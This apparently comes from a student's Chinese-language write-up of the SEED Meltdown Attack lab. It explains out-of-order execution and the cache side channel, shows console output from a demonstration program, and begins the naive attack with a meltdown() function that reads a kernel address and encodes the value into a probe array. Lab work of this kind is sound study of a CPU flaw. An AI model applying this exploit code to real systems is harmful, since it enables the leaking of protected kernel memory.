 ![Out-of-Order](../_v_images/20191008171937207_10959.png)

Intel 和其他CPU的设计者在设计Out-of-Order时犯了很严重的错误。如果不应该执行乱序执行，则会消除对寄存器和内存的无序执行的影响，因此该执行不会导致任何可见的影响。 但是，他们忘记了一件事，即对CPU缓存的影响。

Q：第一个问题，对于读指令，当处理器在等待数据从缓存或者内存返回的时候，它到底是什么状态？是等在那不动呢，还是继续执行别的指令？
A：一般来说，如果是乱序执行的处理器，那么可以执行后面的指令，如果是顺序执行，那么会进入停顿状态，直到读取的数据返回。乱序执行是说，对于一串给定的指令，为了提高效率，处理器会找出非真正数据依赖的指令，让他们并行执行。但是，指令执行结果在写回到寄存器的时候，必须是顺序的。也就是说，哪怕是先被执行的指令，它的运算结果也是按照指令次序写回到最终的寄存器的。


编译执行`MeltdownExperiment.c`程序，执行效果为`array[7*4096 + 1024] is in cache.`。产生这个现象的原因也很明显，文档中也讲得十分清楚了。在执行`kernel_data = *(char*)kernel_data_addr;`这条语句时，CPU不会等待内存数据的访问（读），会继续将下一条指令加载进CPU并且执行，导致array[7*4096 + 1024]被加入到寄存器以及cache中。最终因为上一条指令出错，寄存器值被清空，但数据依然保存在了cache中。在Relaod过程中检测array[7*4096 + 1024]数据访问时间满足cache的访问时间。

```
[10/08/19]seed@VM:~/.../Meltdown_Attack$ ./MeltdownExperiment 
Memory access violation!
array[7*4096 + 1024] is in cache.
The Secret = 7.
```

# Task 7: The Basic Meltdown Attack
CPU可以无序执行的程度取决于并行执行访问检查的速度。这是一个典型的竞争条件情况。

## Task 7.1:  A Naive Approach
修改`meltdown`函数如下，编译执行没有显示cache命中。
```
void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;

  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;
  array[kernel_data * 4096 + DELTA] += 1;
}

```
